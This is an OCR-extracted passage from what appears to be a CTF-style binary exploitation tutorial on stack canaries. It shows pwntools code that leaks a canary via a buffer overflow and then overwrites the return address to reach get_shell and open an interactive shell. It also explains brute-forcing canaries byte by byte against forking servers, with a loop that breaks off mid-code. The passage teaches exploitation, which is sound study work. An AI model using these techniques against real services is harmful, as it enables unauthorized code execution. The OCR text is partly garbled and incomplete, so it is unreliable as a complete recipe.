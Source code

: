 ```python


# leak Canary

payload = "A"*100

io.sendline(payload)



io.recvuntil ( &quot;A&quot; * 100)
Canary = u32(io.recv(4))-0xa

log.info("Canary:"+hex(Canary))



# Bypass Canary

payload = "\x90"*100+p32(Canary)+"\x90"*12+p32(get_shell)

io.send(payload)



io.recv ()


io.interactive ()
```

### one-by-one 爆破 Canary



For Canary, not only is the Canary different after each process restart (the same as GS, GS is restarted), but the Canary of each thread in the same process is also different.
However, there is a class that opens the child process interaction through the fork function, because the fork function directly copies the memory of the parent process, so the Canary of each child process created is the same. We can use this feature to completely blast Canary byte by byte.
In the famous offset2libc bypassing all protected linux64bit articles, the author is using this way to blast the Canary:
This is the Python code for blasting:


```python

print "[+] Brute forcing stack canary "



start = len (p)
stop = len (p) +8


while len(p) < stop:

   for i in xrange(0,256):

      res = send2server(p + chr(i))



      if res != "":

```